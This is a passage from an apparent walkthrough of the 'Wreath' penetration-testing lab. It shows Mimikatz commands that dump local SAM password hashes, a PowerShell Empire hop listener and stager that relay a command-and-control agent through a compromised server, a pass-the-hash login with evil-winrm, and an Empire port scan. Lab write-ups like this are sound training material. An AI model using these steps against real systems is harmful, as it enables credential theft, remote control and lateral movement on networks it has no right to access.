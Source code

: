 With GUI access obtained and our shared drive set up , Mimikatz can be used to dump the local account password hashes for this target. Open up a cmd.exe or PowerShell window as an administrator in the GUI and enter the following command:
```powershell
\\tsclient\share\mimikatz\x64\mimikatz.exe
```
{{< image src="/images/wreath/15.png" alt="error" position="center" style="border-radius: 8px;" >}}

With mimikatz give debug privileges to self and elevate integrity to SYSTEM level : 
```plain-text
privilege::debug
token::elevate
```
All SAM local password hashes can be dumped using :
```plain-text
lsadump::sam
```
And we get the Administrator's local NTLM hash.

### C2 Framework - Empire
To get an agent back from a target with no outbound access, we will use a hop listener. Switch to the listener using `uselistener http_hop` from the main Empire menu.
```plain-text
set RedirectListener CLIHTTP
set Host 10.200.57.200
set Port ANY_PORT
execute
```
This will have written a variety of files into a new `http_hop` directory in `/tmp` of our attacking machine. Replicate this file structure on the compromised .200 webserver when we serve the files.

First create an appropriate stager using `usestager multi/launcher`and setting the listener as the `http_hop` listener.
Paste this stager to the terminal of the production server.
Now , in the `/tmp` directory of the compromised webserver , create a directory and transfer all the contents from the `/tmp/http_hop` and then transfer the directory to the webserver.

{{< image src="/images/wreath/18.png" alt="error" position="center" style="border-radius: 8px;" >}}

To serve the files on the port we chose when generating the http_hop listener , use command:
```bash
php -S 0.0.0.0:PORT &>/dev/null &
```
To scope out the final target , we will upload the Empire Port Scanning script and execute it manually on the target. The Empire scripts are stored at : 
```plain-text
/usr/share/powershell-empire/empire/server/data/module_source/situational_awareness/network/
```
Now sign in as the Administrator :
```bash
evil-winrim -u Administrator -H HASH -i IP -s EMPIRE_DIR
```
Type `Invoke-Portscan.ps1` to initialise the script. And if we type `Get-Help Invoke-Portscan` , we should see the help menu for the tool.
To scan the top 50 ports of the .100 server use the command:
```powershell
Invoke-Portscan -Hosts TARGET_IP -TopPorts 50 
```
{{< image src="/images/wreath/19.png" alt="error" position="center" style="border-radius: 8px;" >}}
